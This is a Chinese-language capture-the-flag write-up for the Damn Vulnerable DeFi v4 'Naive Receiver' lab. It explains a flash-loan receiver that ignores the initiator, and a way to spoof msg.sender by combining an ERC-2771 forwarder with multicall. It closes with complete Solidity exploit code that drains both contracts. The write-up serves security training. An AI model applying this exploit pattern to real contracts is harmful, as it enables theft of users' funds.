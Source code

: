 # Damn Vulnerable DeFi v4 - native receiver

- https://www.damnvulnerabledefi.xyz/challenges/naive-receiver/

## Check Condition

首先檢查通過的條件：

Player 只能發兩個以下的交易：

```solidity
assertLe(vm.getNonce(player), 2);
```

需要提走 receiver 所以的資金：

```solidity
assertEq(
    weth.balanceOf(address(receiver)),
    0,
    "Unexpected balance in receiver contract"
);
```

需要提走 pool 所以的資金：

```solidity
assertEq(
    weth.balanceOf(address(pool)),
    0,
    "Unexpected balance in pool"
);
```

提走的資金要轉入 recovery：

```solidity
assertEq(
    weth.balanceOf(recovery),
    WETH_IN_POOL + WETH_IN_RECEIVER,
    "Not enough WETH in recovery account"
);
```

## drain receiver (access control)

receiver (FlashLoanReceiver) 的問題是忽略了第一個參數 initiator。這個參數是 flashloan 的發起地址，一般需要檢查 initiator 是否可以發起 flashloan，忽略這個檢查會導致任何人都可以發起 flashloan 並執行 receiver 的 onFlashLoan：

```solidity
function onFlashLoan(address /* initiator */, address token, uint256 amount, uint256 fee, bytes calldata)
    external
    returns (bytes32)
{
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }
}
```

所以以 player 地址發起 flashloan 到 receiver 數次，就可以透過 flashloan 的手續費抽走 receiver 的所有資金。

## drain pool

ERC-2771 本來是一個為了 meta-transaction 設計的，如果 `msg.sender` 是被信任的地址，則會把 calldata 尾端 20 bytes 的資料作為 `msg.sender`：

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

但是和 multicall 一塊使用則可以將任意的 20 bytes 的資料作為 `msg.sender`：

```txt
// `++` means bytes concat

[caller = trustedForwarder]
calldata = Multicall.multicall([
  NaiveReceiverPool.withdraw( (WETH_IN_POOL+WETH_IN_RECEIVER), payable(recovery)) ++ address(deployer)
])
```

可以看到 `msg.sender` 是 trustedForwarder，以 multicall 執行 withdraw 時，就會將後面 20 bytes 的資料作為 `msg.sender`。

## solution

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    // drain receiver
    bytes[] memory multicallData = new bytes[](10);
    for (uint8 i = 0; i < 10; i++) {
        multicallData[i] = abi.encodeCall(
            NaiveReceiverPool.flashLoan,
            (receiver, address(weth), 1 ether, bytes(""))
        );
    }
    pool.multicall(multicallData);

    // drain pool
    multicallData = new bytes[](1);
    multicallData[0] = abi.encodePacked(
        abi.encodeCall(
            NaiveReceiverPool.withdraw,
            (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
        ),
        address(deployer)
    );

    BasicForwarder.Request memory req = BasicForwarder.Request({
        from: player,
        target: address(pool),
        value: 0,
        gas: gasleft(),
        nonce: 0,
        data: abi.encodeCall(Multicall.multicall, (multicallData)),
        deadline: block.timestamp
    });

    // // get hash and sign
    bytes32 reqHash = forwarder.getDataHash(req);
    bytes32 digest = keccak256(
        abi.encodePacked("\x19\x01", forwarder.domainSeparator(), reqHash)
    );
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
    forwarder.execute(req, abi.encodePacked(r, s, v));
}
```

## reference

- https://eips.ethereum.org/EIPS/eip-3156#receiver-specification
- https://eips.ethereum.org/EIPS/eip-2771
